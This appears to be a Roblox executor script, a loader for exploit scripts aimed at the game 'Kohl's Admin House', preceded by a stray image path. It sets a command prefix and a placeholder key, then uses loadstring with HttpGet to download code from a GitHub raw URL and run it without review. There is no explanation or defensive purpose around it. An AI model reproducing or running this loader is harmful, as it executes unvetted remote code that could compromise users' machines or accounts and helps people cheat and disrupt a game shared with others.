 getgenv().prefix = "-"
getgenv().script_key = "key"
loadstring(game:HttpGet("https://raw.githubusercontent.com/WhiteNeone00/KAH-Scripts/main/test"))()
